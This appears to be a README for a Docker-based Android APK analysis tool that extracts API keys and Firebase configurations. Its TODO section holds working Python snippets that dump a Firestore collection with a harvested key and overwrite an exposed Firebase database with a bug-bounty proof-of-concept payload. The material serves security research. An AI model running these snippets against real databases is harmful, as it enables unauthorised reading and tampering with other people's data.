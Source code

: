 # APK Playbook

A Docker-based tool for analyzing Android APK files and extracting sensitive information such as API keys, Firebase configurations, and other security-related data.

## Setup

1. Place your APK file in the `/app` directory
2. Build the Docker image:
   ```bash
   make build
   ```
3. Run the container:
   ```bash
   make run
   ```
4. If you want to run tools manually:
   ```bash
   make run-bash
   ```

All reports will be outputted to /output, I roccommend looking at the agneyastra reports.

## What it does

This tool will automatically:
- Decompile the APK file
- Extract GCP API keys, Firebase configurations, and other sensitive data
- Check Firebase Remote Config accessibility
- Generate detailed logs and reports

## Output

All extracted data and logs will be available in the `/app` directory within the container.

# Credit where credit is due
Agneyastra was pulled from https://github.com/JA3G3R/agneyastra and rewritten to python.

# TODO
Add firebase project dump
```python
import requests
api_key = 'AI**********************************zP8'
project_id = 'FIRESTORE_DB-PROJECT_NAME'
collection = 'COLLECTION_NAME'
url = f'https://firestore.googleapis.com/v1/projects/{project_id}/databases/(default)/documents/{collection}?key={api_key}'


response = requests.get(url)

if response.status_code == 200:
    print("Collection dump:", response.json())
else:
    print(f"Failed to retrieve data: {response.status_code} - {response.text}")
```

Add firebase .json overwrite
```python
import requests

## THIS IS AN EXAMPLE OF JSON DATA TO UPLOAD TO THE DATABASE. CHANGE AS YOU SEE FIT
data = {"Mexploit": "BugBountyHunter", "Email": "<EMAIL>", "Role": "Admin", "Message" : "this is a PoC for your misconfigured firebase instance. A misconfigured instance could allow attackers to read, write, and manage a firebase db for their own nefarious actions. Please secure this immediately."}

## HERE YOU WILL ENTER THE URL OF THE EXPOSED DB WITH THE ./json APPENDED
response = requests.put('<URL OF EXPOSED FIREBASEDB>',json=data)

## IF SUCCESSFUL YOU WILL GET A MESSAGE TO TERMINAL
print("Executed the PoC Successfully")
```
